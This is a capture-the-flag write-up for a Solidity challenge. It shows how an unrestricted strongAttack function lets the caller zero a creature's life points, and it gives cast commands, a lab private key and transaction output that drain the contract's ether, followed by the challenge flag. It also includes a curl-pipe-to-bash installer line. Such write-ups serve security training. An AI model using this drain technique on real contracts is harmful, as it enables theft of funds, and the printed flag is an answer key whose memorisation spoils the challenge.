

---

## Challenge Scenario 

Alex had always dreamed of becoming a warrior, but she wasn't particularly skilled. When the opportunity arose to join a group of seasoned warriors on a quest to a mysterious island filled with real-life monsters, she hesitated. But the thought of facing down fearsome beasts and emerging victorious was too tempting to resist, and she reluctantly agreed to join the group. As they made their way through the dense, overgrown forests of the island, Alex kept her senses sharp, always alert for the slightest sign of danger. But as she crept through the underbrush, sword drawn and ready, she was startled by a sudden movement ahead of her. She froze, heart pounding in her chest as she realized that she was face to face with her first monster.

# Solving

At first everybody should go and take a look in the `/docs` endpoint. In this page you will find crucial information about the solving of this challenge.

## Foundry

To do this challenge we will need to download foundry:

```
curl -L https://foundry.paradigm.xyz | bash && foundryup
```

A foundry tutorial can be found in the `/docs` endpoint.

## Goal


From the main website, the challenge as it seems is to defeat the monsters by getting their health bar to go to 0. A one-click does too little damage, and repetitive clicking doesn't seem to work as they heal fast.



To figure out how we need to go about this we first need to take a look at the **contract sources** we are provided with.
### Setup.sol

```sol
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Creature} from "./Creature.sol";

contract Setup {
    Creature public immutable TARGET;

    constructor() payable {
        require(msg.value == 1 ether);
        TARGET = new Creature{value: 10}();
    }
    
    function isSolved() public view returns (bool) {
        return address(TARGET).balance == 0;
    }

```

From the **docs**:

The Setup.sol file contains a single contract called Setup. This contract handles all the initialization actions. It typically includes three functions:  

- constructor(): Automatically called once during contract deployment and cannot be called again. It performs initialization actions such as deploying the challenge contracts.
- TARGET(): Returns the address of the challenge contract.
- isSolved(): Defines the final objective of the challenge. It returns true if the challenge is solved, and false otherwise.

To solve the challenge we need to make the target balance 0.

### Creature.sol

```sol
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Creature {
    
    uint256 public lifePoints;
    address public aggro;


    function strongAttack(uint256 _damage) external{
        _dealDamage(_damage);
    }
    
    function punch() external {
        _dealDamage(1);
    }

    function loot() external {
        require(lifePoints == 0, "Creature is still alive!");
        payable(msg.sender).transfer(address(this).balance);
    }

    function _dealDamage(uint256 _damage) internal {
        aggro = msg.sender;
        lifePoints -= _damage;
    }
}

```

The functions in Creature.sol reveal how the game functions behind the scenes.

###### Analysis

A function called payable.

```sol
    constructor() payable {
        lifePoints = 20;
    }
```

This function tells us how much health the monsters have.

Then there is 

```sol
    function strongAttack(uint256 _damage) external{
        _dealDamage(_damage);
    }
```

Strong attack function allows us to specify the amount of the damage, which then calls the `_dealDamage()` function with basically just deals said damage to the monsters:

```sol
    function _dealDamage(uint256 _damage) internal {
        aggro = msg.sender;
        lifePoints -= _damage;
    }
```

Then comes the standard `punch()` function:

```sol
    function punch() external {
        _dealDamage(1);
    }
```

This is probably the function our character is using on the homepage to deal damage. This function reduces strictly `1` health, and it doesn't have room to accept values.

Finally comes the `loot()` function: 

```sol
    function loot() external {
        require(lifePoints == 0, "Creature is still alive!");
        payable(msg.sender).transfer(address(this).balance);
    }

```

This function sends all the ETH (ether) stored in the contract to whoever calls it, but only if `lifePoints` equals `0`. Basically it finalizes a transaction. The transaction in this case is confirming the monster is defeated.


#### Blockchain attack

To call a function that modifies data, you need to sign the transaction. These functions are any non-view and non-pure functions in Solidity. You can use the cast tool with the send option:

```shell
cast send $TargetAdress "strongAttack(uint256)" 20 --rpc-url http://154.57.164.81:32475/rpc --private-key $PrivateKey
```

```shell
└─$ cast send 0xc8a4Ee87B12877eB4Ff331460C13c4b5831050c6 "strongAttack(uint256)" 20 --rpc-url http://154.57.164.81:32475/rpc --private-key 0x567a07c1193c9eda53e5e7ede98a3518dc4c0e739f1a25001f818650a31eecb5

blockHash            0xd5c128f2a00b246d0476e16a2fc868ff90446bfac3db767706f3250c8989e68e
blockNumber          2
contractAddress      
cumulativeGasUsed    43933
effectiveGasPrice    1
from                 0x85Cf4478beBed8F66125F683c9Fc1f608B243376
gasUsed              43933
logs                 []
logsBloom            0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
root                 
status               1 (success)
transactionHash      0x6fb222e8e019288f3845fa355d3679f43517620700627e1cab9d82133ea2b449
transactionIndex     0
type                 2
blobGasPrice         1
blobGasUsed          
to                   0xc8a4Ee87B12877eB4Ff331460C13c4b5831050c6

```

If you see this it means the transaction has been successful.

>[!NOTE]
>The target host:port, private key, addresses are different for each instance! Be sure to change them before executing these commands

Let's loot the treasure!

```shell
└─$ cast send 0xc8a4Ee87B12877eB4Ff331460C13c4b5831050c6 "loot()" --rpc-url http://154.57.164.81:32475/rpc --private-key 0x567a07c1193c9eda53e5e7ede98a3518dc4c0e739f1a25001f818650a31eecb5 

blockHash            0x36968f9adb5d4e3fe1e835ccb941212c70963228fa7dfbf0054c054e4a221fce
blockNumber          3
contractAddress      
cumulativeGasUsed    30240
effectiveGasPrice    1
from                 0x85Cf4478beBed8F66125F683c9Fc1f608B243376
gasUsed              30240
logs                 []
logsBloom            0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
root                 
status               1 (success)
transactionHash      0x91352a9fa9ddaaf02fabde9af9db37f0eac51858b67d9c314edfbb852e40bed8
transactionIndex     0
type                 2
blobGasPrice         1
blobGasUsed          
to                   0xc8a4Ee87B12877eB4Ff331460C13c4b5831050c6
```

Now we need to access the `/flag` endpoint: http://Host:Port/flag

Flag is: `HTB{g0t_y0u2_f1r5t_b100d}`

